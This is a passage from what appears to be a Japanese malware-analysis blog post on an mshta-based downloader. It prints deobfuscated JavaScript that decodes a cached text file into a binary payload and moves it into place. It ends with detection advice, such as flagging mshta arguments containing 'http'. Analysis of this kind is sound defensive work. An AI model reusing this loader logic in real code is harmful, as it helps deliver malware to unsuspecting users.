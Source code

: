 この関数でファイル名が判明し、それを使って`SIZE_CHECK`という関数を使ってテンポラリ用フォルダ(フォルダ1)に保存します。  
ただ、この時にちょっとしたトリックが使われています。おそらく元々はテキストデータとなっています。これをデコードしてバイナリにしているようです。  

```js
function SIZE_CHECK(arg1, arg2){
	try{
		var raw_txtdata;
		try{
			raw_txtdata=fso["OpenTextFile"](arg1,0x1,!![],-0x1);
		}catch(_0xc28659){
			return 0x0;
		}
		var fsize1=fso["getfile"](arg1)["size"];
		var txtinfo=raw_txtdata["Read"](fsize1/0x2);
		// decode filedata
		var decode_size=(txtinfo["charCodeAt"](0x1)&0xffff)+(txtinfo['charCodeAt'](0x2)&0xffff)*0x10000;
		var decode_data=(txtinfo["charCodeAt"](0x1c)&0xffff)+(txtinfo['charCodeAt'](0x1d)&0xffff)*0x10000;
		if(fsize1!=decode_size){
			return 0x0;
		}else{
			COPY_FILE(txtinfo, decode_data, arg2);
			return 0x1;
		}
	}catch(_0x38917d){
		return 0x0;
	}
}
```

さて、これでダウンロードが完了です。テンポラリフォルダから本来のマルウェアに移動させたら完了です。  

```js
SIZE_CHECK(inetcach_file, f_loc);
try{
    fso['MoveFolder'](dir_loc, dir_loc2);
}catch(_0xf01aa6){
    window["close"]();
}
window["close"]();
```

さて、これで終了です。このダウンロードしたマルウェアの内容までは私の方では解析は行っていません。  

### 終わりに

mshtaを使ったマルウェアはとても多いので、個人的にはmshtaは使わない方がいいのではないかな、と思ってます。
できれば、起動できないようにするとかmshtaからの外部アクセスを禁止する、または最低でもmshtaの引数に**http**があったら検出するなどをした方がいいと思いますね。  

あと、個人的にはCOM系（COMハイジャックとか）の動作をあまり詳しくないのですよね。。この辺りは勉強が必要だな、と痛感します。  

最後に、IOC情報をまとめておきます。  
ありがとうございました。
